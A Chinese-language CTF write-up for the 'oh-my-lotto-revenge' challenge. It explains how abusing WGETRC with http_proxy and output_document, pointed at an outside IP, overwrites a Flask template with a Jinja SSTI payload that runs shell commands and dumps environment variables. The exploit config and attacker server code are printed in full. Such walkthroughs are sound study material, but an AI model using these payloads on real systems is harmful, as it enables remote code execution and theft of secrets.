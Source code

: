 # oh-my-lotto-revenge

这里和上一个不一样的就是flag没有回显了，其他的没有区别

![image-20220418204212687](images/13.png)

利用`WGETRC`配合`http_proxy`和`output_document`，写入SSTI到templates目录，利用SSTI完成RCE（两个都可以这么打）

写一个forecast文件（随便写一个文件就行，他读进去会默认保存到/app/guess/forecast.txt）

```
http_proxy=47.93.248.221:9999
output_document=/app/source/templates/index.html
```

http_proxy指定去下载的url

output_dociment指定下载的路径，这样去覆盖本身的index.html（都可以渲染，随便覆盖一个都可以）

在forecast路由上传文件

在lotto路由下修改WGETRC的环境变量

![image-20220418204444629](images/14.png)

下载到/app/guess/forecast.txt，然后在forecast.html渲染我们的SSTI语句

起一个flask服务（这里也可以去反弹shell）

```
from flask import Flask, make_response
import secrets

app = Flask(__name__)

@app.route("/")
def index():
    r =  {{config.__class__.__init__.__globals__['os'].popen('env').read()}}
    response = make_response(r)
    response.headers['Content-Type'] = 'text/plain'
    response.headers['Content-Disposition'] = 'attachment; filename=lotto_result.txt'
    return response

if __name__ == "__main__":
    app.run(debug=True, host='0.0.0.0', port=9999)
```

因为我覆盖的index.html，所以访问home目录（两次），不然访问不到覆盖掉的

![image-20220418205937982](images/15.png)


